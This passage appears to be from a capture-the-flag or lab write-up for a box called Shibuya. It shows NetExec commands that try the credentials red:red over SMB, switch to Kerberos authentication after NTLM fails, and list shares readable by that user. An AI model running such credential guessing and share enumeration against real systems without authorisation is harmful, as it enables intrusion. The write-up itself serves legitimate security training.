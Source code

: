 Kerbrute found some 2 users across the domain.

### SMB Enumeration 2

Lets now try to authenticate using these users.

```bash
nxc smb shibuya.vl -u 'red' -p 'red'
```

![image.png](/assets/images/Shibuya_VL/image%203.png)

Still we cant authenticate, but if we try to authenticate using kerberos.

```bash
nxc smb shibuya.vl -u 'red' -p 'red' -k
```

![Screenshot_20251029_213438.png](/assets/images/Shibuya_VL/Screenshot_20251029_213438.png)

We got authenticated, I think the NTLM authentication is disable on the box.

So lets now list the shares on the box.

```bash
nxc smb -k shibuya.vl -u 'red' -p 'red' --shares
```

![Screenshot_20251029_213609.png](/assets/images/Shibuya_VL/Screenshot_20251029_213609.png)

We have read permissions on users, IPC$, SYSVOL, NETLOGON shares on the box.
